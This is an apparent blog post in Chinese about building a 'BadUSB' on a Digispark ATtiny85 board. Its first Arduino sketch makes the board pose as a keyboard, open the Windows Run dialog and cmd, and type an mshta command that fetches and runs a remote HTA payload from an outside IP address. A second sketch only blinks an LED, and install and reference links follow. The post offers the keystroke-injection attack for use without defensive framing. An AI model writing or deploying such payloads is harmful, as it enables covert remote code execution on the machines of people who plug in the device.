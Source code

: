 ```yaml
---
author: XhstormR
categories:
- MCU
- BadUSB
date: 2019-11-16T16:15:32+08:00
title: Digispark BadUSB
---
```


<!--more-->

Updated on 2019-11-16

> {{< image "/uploads/attiny85.png" "Attiny85" "1" "1">}}
>
> 基于 Attiny85 单片机

## Code
```c
#include "DigiKeyboard.h"

#define KEY_CAPSLOCK 57

void setup() {
    DigiKeyboard.delay(1000);
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(500);
    DigiKeyboard.println("cmd");
    DigiKeyboard.delay(500);
    DigiKeyboard.println("mshta http://1.1.1.1/main.hta & exit");
}

void loop() {
}
```

```c
void setup() {
    pinMode(1, OUTPUT);
}

void loop() {
    digitalWrite(1, HIGH);
    delay(1000);
    digitalWrite(1, LOW);
    delay(1000);
}
```

## Install
* https://github.com/arduino/Arduino
* https://github.com/digistump/arduino-boards-index
* https://github.com/digistump/DigistumpArduino/releases/latest

## Reference
* https://github.com/toxydose/Duckyspark
* [Digispark Example](https://github.com/digistump/DigistumpArduino/tree/master/digistump-avr/libraries/Digispark_Examples)
* [DigiMouse.h](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkMouse/DigiMouse.h)
* [DigiKeyboard.h](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboard.h)
* [HID Usage Tables](https://source.android.google.cn/devices/input/keyboard-devices#hid-keyboard-and-keypad-page-0x07)
